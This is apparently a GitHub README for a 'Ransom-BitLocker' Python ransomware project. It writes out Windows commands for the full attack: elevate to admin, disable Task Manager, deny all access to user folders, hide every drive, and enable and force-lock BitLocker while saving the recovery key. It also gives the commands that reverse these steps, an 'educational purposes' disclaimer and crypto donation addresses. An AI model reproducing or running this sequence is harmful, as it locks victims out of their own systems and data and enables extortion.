

<div align="center">
  <h1><b>Ransom-BitLocker (Encryption & Decryption)</b></h1>
  
</div>

## Requirements
- **Python Version**: 3.11.4 (Version I'm using)
- **Dependencies**: Install the required Python package using
  ```bash
  pip install requests

## Run Command
- Add this code at the top of `EncryptionBitLocker.py` and `DecryptionBitLocker.py` to ensure admin privileges:
  ```python
  import ctypes
  import sys

  def run_as_admin():
      if ctypes.windll.shell32.IsUserAnAdmin():
          return
      else:
          ctypes.windll.shell32.ShellExecuteW(None, "runas", sys.executable, __file__, None, 1)
          sys.exit()

  run_as_admin()
  
## Information About Encryption
1. **Disable TaskManager**  
   - **Note**: Disable TaskManager immediately (Return `1` to disable)  
     ```cmd
     reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System /v DisableTaskMgr /t REG_DWORD /d 1 /f
     ```

2. **Lock User Folder**  
   - **Note**: Deny all access (read, write, delete, etc.) to the folder `folder_path`  
     ```cmd
     icacls folder_path /deny everyone:(OI)(CI)F
     ```

3. **Hide All Drives**  
   - **Drive Values**: A:1 - B:2 - C:4 - D:8 - E:16 - F:32 - G:64 - H:128 - I:256 - J:512 - K:1024 - L:2048 - M:4096 - N:8192 - O:16384 - P:32768 - Q:65536 - R:131072 - S:262144 - T:524288 - U:1048576 - V:2097152 - W:4194304 - X:8388608 - Y:16777216 - Z:33554432  
   - **Note**: `67108863` is the total parameters of all drives that need to be hidden  
     ```cmd
     reg add HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v NoDrives /t REG_DWORD /d 67108863 /f
     ```

4. **Generate Recovery Key and Lock Drive**  
   - **Turn on BitLocker and save the recovery key**:  
     ```cmd
     manage-bde -on {drive_letter}: -rp -used > {file_path}
     ```  
   - **Lock the drive and disconnect other programs using that drive**:  
     ```cmd
     manage-bde -lock {drive_letter}: -ForceDismount
     ```

## Information About Decryption
1. **Enable TaskManager**  
   - **Note**: Enable TaskManager immediately (Return `0` to enable)  
     ```cmd
     reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System /v DisableTaskMgr /t REG_DWORD /d 0 /f
     ```

2. **Unlock User Folder**  
   - **Note**: Allow all access (read, write, delete, etc.) to the folder `folder_path`  
     ```cmd
     icacls folder_path /remove:d everyone
     ```

3. **Show All Drives**  
   - **Drive Values**: A:1 - B:2 - C:4 - D:8 - E:16 - F:32 - G:64 - H:128 - I:256 - J:512 - K:1024 - L:2048 - M:4096 - N:8192 - O:16384 - P:32768 - Q:65536 - R:131072 - S:262144 - T:524288 - U:1048576 - V:2097152 - W:4194304 - X:8388608 - Y:16777216 - Z:33554432  
   - **Note**: `0` to show all drives (remove hiding)  
     ```cmd
     reg add HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer /v NoDrives /t REG_DWORD /d 0 /f
     ```

4. **BitLocker Decryption**  
   - **Unlock BitLocker encrypted `{drive_letter}` drive using recovery password `{recovery_key}`**:  
     ```cmd
     manage-bde -unlock {drive_letter}: -RecoveryPassword {recovery_key}
     ```  
   - **Turn off BitLocker encryption on drive `{drive_letter}`**:  
     ```cmd
     manage-bde -off {drive_letter}
     ```
## License
This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for details.

## Disclaimer
This project is intended solely for **educational and research purposes**. It provides tools and examples for understanding BitLocker encryption and decryption mechanisms. **Do not use this project for any malicious or unauthorized activities**, as such actions may violate applicable laws and regulations.

The author is not responsible for any damage, data loss, or legal consequences resulting from the use or misuse of this project. Always test and validate the code in a controlled, secure environment before applying it to critical systems. Ensure you have proper authorization and backups before performing any encryption or decryption operations.

## Donate ⭐
- **USDT (TRC-20)**: `TCLCdvvvgy6Pbj5VnTzaYBwGKzBDyBEyGL`
- **BTC**: `3EALRZzA5vp7i6kXhELTujphiJC4WwZESF`
